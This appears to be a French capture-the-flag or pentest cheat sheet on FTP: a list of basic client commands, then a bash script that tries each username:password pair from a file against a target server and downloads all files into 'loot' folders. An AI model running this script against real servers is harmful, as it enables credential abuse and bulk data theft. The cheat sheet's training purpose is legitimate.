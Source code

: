 ### Commandes FTP essentielles
```bash
# Navigation
pwd                    # Répertoire courant
ls                     # Lister les fichiers
ls -la                 # Liste détaillée avec fichiers cachés
cd <directory>         # Changer de répertoire
cd ..                  # Répertoire parent

# Transfert de fichiers
get <filename>         # Télécharger un fichier
mget *.txt            # Télécharger plusieurs fichiers
put <filename>        # Uploader un fichier
mput *.txt            # Uploader plusieurs fichiers

# Gestion des modes
binary                # Mode binaire
ascii                 # Mode texte
passive              # Mode passif
active               # Mode actif

# Informations
stat                  # Statut du serveur
syst                  # Type de système
help                  # Aide
```

### Recherche systématique de flags/données

#### Script de collecte automatique
```bash
#!/bin/bash
# ftp_collector.sh

TARGET=$1
CREDS_FILE=$2

while IFS=':' read -r username password; do
    echo "Testing $username:$password"
    
    # Connexion FTP automatique
    ftp -n $TARGET << EOF
user $username $password
passive
binary
prompt off
ls -la
mget *
quit
EOF

    # Organiser les fichiers par utilisateur
    mkdir -p "loot/$username"
    mv * "loot/$username/" 2>/dev/null
    
done < "$CREDS_FILE"
```

---